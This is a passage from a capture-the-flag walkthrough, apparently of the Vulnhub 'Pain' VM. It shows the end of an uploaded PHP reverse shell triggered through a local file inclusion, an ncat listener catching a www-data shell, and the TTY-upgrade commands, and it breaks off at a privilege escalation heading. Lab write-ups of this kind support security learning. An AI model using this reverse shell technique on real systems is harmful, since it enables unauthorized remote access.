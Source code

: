 ```

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
re-edit the payload put our reverse shell and uploaded it.

![image](https://user-images.githubusercontent.com/87468669/229392784-d11429f6-2dce-4072-a9fa-7333e056afc4.png)

it generated another file name, take note of it. let's go back to the LFI endpoint path and try calling our shell.

![image](https://user-images.githubusercontent.com/87468669/229392932-38f0a89d-cfef-42fd-898a-48fa9aeb28f5.png)

ncat listener ready.

![image](https://user-images.githubusercontent.com/87468669/229392994-20a62924-dd68-414c-b9c3-9c2a048c6133.png)

trigger the payload by clicking the send mission button. 

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnhub/Pain]
└─$ ncat -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 192.168.0.102.
Ncat: Connection from 192.168.0.102:57250.
Linux PainVM 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64 GNU/Linux
 21:40:07 up 44 min,  0 users,  load average: 0.13, 0.05, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@PainVM:/$ ^Z
zsh: suspended  ncat -lnvp 1337
                                                                                                                                                                      
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnhub/Pain]
└─$ stty raw -echo;fg
[1]  + continued  ncat -lnvp 1337
                                 stty rows 40 cols 160
www-data@PainVM:/$ export TERM=xterm-256color
www-data@PainVM:/$ 
```
check back ncat listener and boom we got a reverse shell. Let's escalate privs.


## Privilege Escalation
